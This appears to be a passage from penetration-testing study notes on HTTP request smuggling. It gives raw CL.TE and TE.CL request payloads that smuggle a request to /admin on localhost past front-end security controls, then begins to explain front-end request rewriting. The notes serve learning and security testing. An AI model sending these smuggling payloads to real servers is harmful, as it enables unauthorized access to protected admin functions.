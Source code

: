 ![Screenshot 2023-10-01 at 11-02-08 Advanced request smuggling Web Security Academy](https://github.com/kiro6/penetration-testing-notes/assets/57776872/f28ce7bf-7e66-496f-9e07-f4fe69416b09)




## Exploiting HTTP request smuggling vulnerabilities
### bypass front-end security controls
- CL.TE
```http
POST / HTTP/1.1
Host: VulnWebsite
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
- TE.CL
```http
POST / HTTP/1.1
Host: VulnWebsite
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Connection: keep-alive
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

### Revealing front-end request rewriting
In many applications, the front-end server modifies incoming requests before sending them to the back-end server by adding additional request headers. For instance, it may:

    Terminate the TLS connection and include headers describing the protocol and ciphers used.
    Add an X-Forwarded-For header with the user's IP address.
    Determine the user's ID from their session token and include a corresponding header.
    Add sensitive information relevant for certain attacks.

